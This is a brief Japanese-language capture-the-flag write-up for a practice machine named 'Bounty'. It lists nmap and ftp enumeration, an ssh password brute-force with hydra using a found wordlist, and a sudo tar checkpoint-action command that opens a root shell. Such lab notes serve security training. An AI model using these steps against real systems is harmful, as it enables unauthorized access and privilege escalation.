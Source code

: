 ```yaml
---
title: "Bounty"
date: 2024-03-16T11:06:05+09:00
draft: false
---
```


### enum

- nmap
  - 21:ftp
  - 22:ssh
- ftp
  - locks.txt
  - task.txt

### user.txt

- hydra ssh で locks.txt を使う
- user.txt が見える

### root.txt

- sudo -l で ```(root) /bin/tar
- ```sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
- root.txt ゲット
